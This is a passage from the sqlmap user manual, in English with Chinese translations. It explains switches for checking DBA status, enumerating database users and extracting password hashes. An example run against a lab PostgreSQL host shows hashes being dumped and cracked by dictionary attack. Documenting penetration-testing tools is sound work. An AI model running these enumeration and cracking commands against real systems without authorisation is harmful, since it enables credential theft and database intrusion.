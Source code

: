 [...]
[xx:xx:04] [INFO] fetching server hostname
[xx:xx:04] [INFO] retrieved: debian-5.0-i386
hostname:    'debian-5.0-i386'
```

### Detect whether or not the session user is a database administrator

Switch: `--is-dba`

It is possible to detect if the current database management system session user is a database administrator, also known as DBA. sqlmap will return `True` if it is, vice versa `False`. 		
通过这个选项你可以获取当前你所连接的数据库的用户是否是数据库管理员(DBA)	sqlmap会返回`True`或者`False`		

### List database management system users

Switch: `--users`

When the session user has read access to the system table containing information about the DBMS users, it is possible to enumerate the list of users. 		
如果sqlmap连上目标数据库而且连接使用的用户有足够的读权限的话 可以使用这个选项来枚举数据库中所有的用户

### List and crack database management system users password hashes

Switch: `--passwords`

When the session user has read access to the system table containing information about the DBMS users' passwords, it is possible to enumerate the password hashes for each database management system user. sqlmap will first enumerate the users, then the different password hashes for each of them. 		
如果你有足够的读权限 那么sqlmap就能够进入到系统表中来获取用户密码的哈希值 		
首先获取的是当前所登录的用户的hash值然后再是其他用户的 

Example against a PostgreSQL target:

	```
	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
	passwords -v 1
	
	[...]
	back-end DBMS: PostgreSQL
	[hh:mm:38] [INFO] fetching database users password hashes
	do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
	[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
	what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
	[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
	do you want to use common password suffixes? (slow!) [y/N] n
	[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
	[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
	[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
	database management system users password hashes:
	[*] postgres [1]:
	    password hash: md5d7d880f96044b72d0bba108ace96d1e4
	    clear-text password: testpass
	[*] testuser [1]:
	    password hash: md599e5ea7a6f7c3269995cba3927fd0093
	    clear-text password: testpass
	```

Not only sqlmap enumerated the DBMS users and their passwords, but it also recognized the hash format to be PostgreSQL, asked the user whether or not to test the hashes against a dictionary file and identified the clear-text password for the `postgres` user, which is usually a DBA along the other user, `testuser`, password. 		
```